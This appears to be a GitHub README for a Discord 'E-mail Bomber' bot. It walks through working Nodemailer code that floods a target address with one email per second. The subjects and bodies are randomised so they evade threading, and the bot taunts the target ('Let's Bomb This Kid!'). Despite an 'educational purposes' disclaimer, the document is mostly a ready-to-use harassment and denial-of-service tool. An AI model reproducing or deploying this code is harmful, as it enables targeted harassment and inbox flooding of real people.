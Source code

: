 # Discord Bot E-mail Bomber
## Warning!
This bot is against Discord ToS and can get you banned for using it!  
I'm not responsible for anything that is done/happens with this source code.  
This code is strictly for educational purposes.  
By copying or using any of the code below you agree that you have read this.  
*Use this at your own risk*  
*Please do not edit the credits!*
*Bot  Created by Mental#1424 and Exploit#1337*  
[Email Bombing Video](https://www.youtube.com/watch?v=kquNr_DV_Rc)  
[Email Bombing V2 Video](https://youtu.be/8hPAveapX8w)  
for any issue, join [this discord server](https://discord.gg/qzKB7EU)

## CHANGELOG
Version 2 - Edited the spamming delay time, now you can choose the mail text, free libero.it account for spamming given. Check indexV2.js  
\
Version 1 - Bot Created  

## Description
With this bot, you can bomb any email address by running a simple command.  
The E-mail subject and body will be randomized in all new mails, so there is not any chance that a new mail is a reply to the first.    
All this complex system is activated by the simple command ```!send mail@mail.com```   

## Installing
First, we need to install [Nodemailer](https://nodemailer.com/about/) using npm  
```bash
npm install nodemailer --save
```
## Starting
Now we need to declare nodemailer at the bottom of our code and a boolean called "spamming" that will be used later in the code  
```javascript
const Discord = require('discord.js');
const client = new Discord.Client();
const prefix = "!"
const nodemailer = require("nodemailer");
var spamming;
```

## Client On Message
It's time to start coding, you can find the whole code in index.js or follow this guide to create your own.  
In this bit of code we declare args and some other stuff that is required on the message event.   
```javascript
client.on('message', async msg => {
    var args = msg.content.split(' ').slice(1);
    var command = msg.content.toLowerCase().slice(prefix.length).split(' ')[0];
    if(msg.author.bot) return;
 ```
## Send Command
We need to create our send command and make a function to randomize the emails to avoid duplicates.  
Duplicates are bad because it will stack in the inbox and not be effective.  

```javascript    
if (command === 'send') {
  if (spamming == true) return msg.reply("A mail bombing is already active! Please use '!stop' before a new attack"); //Check if the spamming variable is true

    if (!args[0]) 
        return  msg.reply("You need to insert a mail target!"); //If email is not specified, you get this reply message.

        
        function randomLetters(length) { //Here you create your random letters and number function.
          var text = "";
          var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
          for (var i = 0; i < length; i++)
            text += possible.charAt(Math.floor(Math.random() * possible.length));
             return text;
          }

       
          
        var mailto = args[0] //the variable mailto will be the arg[0] (the target e-mail)
        var mailtxt = (randomLetters(10)) //The mail's text will be 10 random letters and numbers choosed by the var "possible"
 ```
        
##  SMTP Server Connection
Now let's create the connection with the smtp server  
WARNING: If you are using gmail under user and pass you put the email and password. YOU MUST HAVE LESS SECURE APPS ON TO USE GMAIL!
```javascript
        let transporter = nodemailer.createTransport({
            host: "server", //smtp server
            port: 25,
            secure: false, // true for 465, false for other ports
            auth: {
              user: 'mail', 
              pass: 'password' 
            }
          });
```
##  E-Mail Config
And now we make the config for the emails
```javascript
let mailOptions = {
            from: '"Name" <e-mail>', // sender address
            to: mailto, // list of receivers, in this case, the "mailto" variable
            subject: (randomLetters(8)), // Subject is made by 8 random characters
            text: mailtxt, // text body, made from mailtxt variable
            html: "<b>" + mailtxt + "</b>" // html body
          };
```
##  Spamming Process
Here is where we make our spam functions and setInterval to make it keep spamming.  

```javascript
async function sendMail() {
          let info = await transporter.sendMail(mailOptions) //You load the mail options
          spamming = true; //You set the variable "spamming" to true, when it's on true, you can't launch other attacks
          }
          

            const spammingMessage = setInterval(() => { //You make a loop of the command, so it spams over and over
              var mailto = args[0]
                  mailOptions.subject = (randomLetters(8)) //You change the mail object, so it's everytime a new email and not a reply to the first one
                  var mailtxt = (randomLetters(10))
          
                      sendMail();
                      
                  }, 1000);

        msg.channel.send({embed: { //You create an embed with all the informations
            color: 3447003,
            author: {
              name: client.user.username,
              icon_url: client.user.avatarURL
            },
            title: "Bombing",
            description: "Bot Developed By Mental#1424",
            fields: [{
                name: "Let's Bomb This Kid!",
                value: "Bombing In Progress..."
              },
            {
                name: "Target Mail",
                value: mailto,
              },

            ],
            timestamp: new Date(),
            footer: {
              icon_url: client.user.avatarURL,
              text: "© Discord Mail Bomber"
            }
            
            
          }
          
        });
      }
```
##  Stopping The bombing
The stop command:
```javascript 
if(command === "stop") { //Stop the mail bombing
        if (spamming == false) return msg.reply("There isn't any active bombing!") //if you are not spamming, you can't stop the mail bombing.
        msg.channel.send("Stopped! Bot Shutdown")
        client.destroy() //The bot shut down
    }
```
##  Credits and info
All the information about the bot and the developers.
```javascript
    if(command === "info") { //Please do not edit this
      msg.channel.send({embed: {
          color: 3447003,
          author: {
            name: client.user.username,
            icon_url: client.user.avatarURL
          },
          title: "Info",
          description: 'Bot developed by Mental#1424'+'\n'+'Special Thanks To: ' + 'Exploit#1337',
          fields: [{
              name: "Find Me On Github!",
              value: "[Click This](https://github.com/MyNameIsMental)"
            },
           {
              name: "The bot is open source on github!",
              value: "[Click This](https://github.com/MyNameIsMental/discord-email-bombing)"
            },

          {
              name: "Command Sytax",
              value: "!send targetmail@targetmail.com text"
            },

            {
              name: "Stop",
              value: "Use !stop for stopping the mail bombing"
            }
          ],
          timestamp: new Date(),
          footer: {
            icon_url: client.user.avatarURL,
            text: "© Discord Mail Bomber"
          }
        }
      })
        };

    }) 
    ```
